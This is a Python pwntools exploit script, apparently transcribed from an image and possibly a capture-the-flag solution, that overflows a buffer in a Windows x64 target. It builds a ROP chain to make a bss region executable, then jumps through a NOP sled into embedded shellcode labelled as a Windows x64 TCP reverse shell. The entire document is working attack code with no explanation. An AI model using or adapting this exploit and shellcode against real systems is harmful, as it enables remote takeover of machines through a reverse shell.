 ```python
shellcode += "\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0" 
shellcode += "\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01" 
shellcode += "\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41" 
shellcode += "\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d" 
shellcode += "\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48" 
shellcode += "\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff" 
shellcode += "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5" 
shellcode += "\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb" 
shellcode += "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5"
# windows x64 reverse shell TCP

##### parameter #####
# rcx	:	bss
# rdx	:	0x6000
# r8	:	0x40
# r9	:	bss + 0x1000

pop_rbx = 0x00401D52 # pop rbx ; ret ;

pop_rcx = 0x0040c620 # pop rcx ; ret ;
pop_rdx = 0x00401095 # pop rdx ; xor eax, eax ; add rsp, 0x28 ; ret ;
pop_r8  = 0x004960b3 # pop r8 ; add rsp, 0x28 ; pop rbx ; pop rsi ; ret;
pop_r9  = 0x004a4a14 # pop r9 ; mov byte [rbx+0x000000E1], 0x00000001 ; mov byte [rbx+0x000000E0], sil ; add rsp, 0x20 ; pop rbx ; pop rsi ; pop rdi ; ret ;
log.info("pop_rcx : " + hex(pop_rcx))
log.info("pop_rdx : " + hex(pop_rdx))
log.info("pop_r8  : " + hex(pop_r8))
log.info("pop_r9  : " + hex(pop_r9))

payload = "" 
payload += "A" * (256 + 8)

payload += p64(pop_rbx)
payload += p64(bss)

payload += p64(pop_r9)
payload += p64(bss + 0x1000) + p64(0) * 3
payload += "A" * 0x20

payload += p64(pop_r8)
payload += p64(0x40)
payload += p64(0) * 2
payload += "A" * 0x28

payload += p64(pop_rcx)
payload += p64(bss)

payload += p64(pop_rdx)
payload += p64(0x6000)
payload += "A" * 0x28

payload += p64(protect)
payload += p64(bss + len(payload) + 0x10) 
payload += "\x90" * 0x100
payload += shellcode

log.info("payload : " + str(len(payload)))

r.recvuntil("payload: ")
pause()
r.sendline(payload)

r.interactive()
```